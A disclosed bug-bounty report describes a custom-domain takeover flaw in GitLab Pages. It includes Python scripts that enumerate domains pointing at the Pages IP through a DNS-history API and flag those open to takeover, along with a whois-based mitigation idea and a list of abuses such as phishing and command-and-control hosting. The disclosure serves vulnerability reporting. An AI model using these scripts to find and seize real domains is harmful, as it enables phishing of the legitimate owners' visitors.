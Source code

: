 # Lack of validation before assigning custom domain names leading to abuse of GitLab pages service

## Report Details
- **Report ID**: 296907
- **URL**: https://hackerone.com/reports/296907
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-12-11T08:14:59.603Z
- **Disclosed**: 2018-02-01T23:26:02.414Z

## Reporter
- **Username**: badshah_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
One way to add a custom domain name for GitLab pages is to create a new DNS A record pointing to the IP of GitLab Pages server i.e. `52.167.214.135`. A person who owns the domain name, could then add the domain name in the Pages settings (at `https://gitlab.com/<username>/<repo>/pages`). GitLab then assigns the domain name mentioned in the Pages settings to that repository if no other repository uses the domain name. All the visitors of the site will be delivered the HTML content in that repository.

An attacker who finds any domain name with DNS records pointing to the above mentioned IP, could take over it for malicious purposes. The domain name will be locked to the attackers repository and the legitimate owner cannot claim it until it is released by the attacker.

There are currently 1953 unique domain names with DNS records pointing to the above mentioned IP, and 115 domains could be taken over.

## Steps To Reproduce:

There are websites which provide data about DNS records. One such website is DNSTrails.com.

**Automated method to get all the domains pointing their DNS to `52.167.214.135`**:
```python
import requests
import json
import time

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0',
    'Referer': 'https://dnstrails.com/',
    'Origin': 'https://dnstrails.com',
    'DNT': '1',
}

page_no = 1

while page_no <= 1000:
  params = (
      ('page', page_no),
  )
  print "Page : " + str(page_no)
  raw_data = requests.get('https://app.securitytrails.com/api/search/by_type/ip/52.167.214.135', headers=headers, params=params, verify=False)
  data = json.loads(raw_data.text)
  for s in data["result"]["items"]:
    with open('gitlab_domains.txt', 'a') as file:
      file.write(s["domain"] + '\n')
  page_no = page_no + 1
#  print "Sleeping for 5"
#  time.sleep(5)
```

Get the unique domain names using: `sort gitlab_domains.txt | uniq > unique_domains.txt`

**Python code to check if the domain names are vulnerable:**
```python
import requests

with open('unique_domains.txt') as f:
    content = f.readlines()
content = [x.strip() for x in content]

for s in content:
  print '*'
  try:
    req = requests.get('http://' + s, timeout=10)
    if req.status_code == 404 and "The page you're looking for could not be found" in req.text:
      with open("vuln_websites.txt", "a") as myfile:
        myfile.write(s + '\n')
  except Exception as e:
    with open("error.txt", "a") as m:
      m.write(s + '\n')
```

This script creates two files - `vuln_websites.txt` and `error.txt`. The domain names in `vuln_websites.txt` is vulnerable to domain name take overs on GitLab.

Count of the vulnerable domain names: `wc -l vuln_websites.txt`. The output is : 115

## Simple mitigation technique

When the domain is added in the settings, get the whois data of the domain name. Check the DNS records and if it contains GitLab's above mentioned IP, request the OTP sent to the registered email address.

A basic python implementation would be:

```python
# pip install python-whois

import whois
w = whois.whois('domain.com')
print w["emails"]
# The OTP could be sent to that email
```

## Impact

Attacker can create fake GitLab account(s) using the email(s) from temporary/anonymous email services. Configure fake email addresses with git for further code commits. Create multiple repositories and add domain name from the vulnerable list. The attacker can then:

- Use the static websites as Command and Control centers for their malware / for other malicious intents
- Phish the customers / visitors of the legitimate domain owners, abusing both the GitLab user's rights and GitLab's Terms of Use.

## Attachments
No attachments
